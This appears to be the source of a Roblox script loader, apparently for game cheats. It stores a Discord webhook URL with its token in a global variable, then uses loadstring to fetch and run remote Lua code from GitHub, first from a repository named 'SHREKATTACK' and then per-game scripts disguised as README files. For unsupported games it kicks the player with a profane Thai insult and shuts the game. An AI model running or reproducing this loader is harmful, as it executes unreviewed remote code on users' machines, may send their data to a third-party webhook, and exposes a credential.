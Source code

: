 _G.webhooksdiscord = "https://discord.com/api/webhooks/947370023251505163/UUHnaBZHcsPcKgmQZjl64M59p6t1MhOcg0Rnnz9CjoSDihBhuRic2y-E1TVOo7IebqwN"
loadstring(game:HttpGet"https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua")();

local PlaceId = game.PlaceId

if PlaceId == 2753915549 or PlaceId == 4442272183 or PlaceId == 7449423635 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/2ScriptsMucasXHub/main/README.md")();
elseif PlaceId == 3956818381 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/How/main/README.md")();
elseif PlaceId == 537413528 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUCASXHUB-V.Full/main/README.md")();
elseif PlaceId == 6329844902 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/xMucas/main/README.md")();
elseif PlaceId == 3101667897 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUC-/main/README.md")();
else
	game.Players.LocalPlayer:kick("สคริปไม่มีเกมนี้ ไอ้สัส")
	wait(1)
	game:Shutdown()
end
